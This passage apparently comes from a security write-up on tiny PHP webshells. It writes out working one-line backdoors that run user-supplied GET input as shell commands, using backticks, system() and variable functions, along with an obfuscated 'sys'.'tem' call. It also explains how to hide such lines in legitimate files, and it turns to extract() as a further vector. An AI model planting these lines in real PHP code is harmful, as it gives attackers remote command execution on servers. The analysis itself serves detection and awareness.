 Finally, let's take this other webshell, coming as a backdoored `index.php` file:

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="backdoored_index" src="/assets/res/stuff/backdoored_index.png">

No doubt that the second line has nothing to do there, and that someone who knows a little bit of PHP and security would find it suspicious. Although it would take time to fully understand what this webshell does (assuming that it is unknown), the malicious intent is quite obvious. To make it stealthier, an attacker could prefer another approach: injecting something like ``` `$_GET[0]`; ``` somewhere in a legitimate PHP file (note the backticks). This code executes GET arguments as a bash command, because of the backtick operators, acting like a call to `shell_exec`. Such a tiny line would not raise much suspicion if lost in the legitimate code.

One could identify three main strategies for such tiny payloads:
* Having a webshell that calls an `exec`-like functions (`system`, `passthru`, `shell_exec` or the backtick operator, `proc_open`, `popen`, `pcntl_exec`), passing as argument a user-supplied input (e.g. `<?php system($_GET[0]); ?>`). Indeed, what an attacker generally wants is to execute bash commands ;
* Having a webshell that calls `eval`-like functions, knowing that alternatives are made more difficult to exploit with PHP 8. This second solution makes the webshell even more versatile, but the drawback is that `eval` cannot be used as a variable function. Whereas it is possible to call `system` with something like `('sys'.'tem')/**/('id');`, doing so with `eval` would not work ([source: Variable functions](https://www.php.net/manual/en/functions.variable-functions.php)) ;
* Having a webshell for which function names are dynamically resolved with variable functions, such as `<?php $_GET['a']($_GET['b']); ?>`. This third solution is an in between since it does not hardcode the routine name, while still being a bit more restrictive than an `eval`.

# The `extract` routine

An uncommon way to apply the third solution is to use the routine `extract` ([documentation](https://www.php.net/manual/en/function.extract)). According to the documentation:

>
>extract — Import variables into the current symbol table from an array  
>...  
>Do not use extract() on untrusted data, like user input (e.g. $_GET, $_FILES).  
>
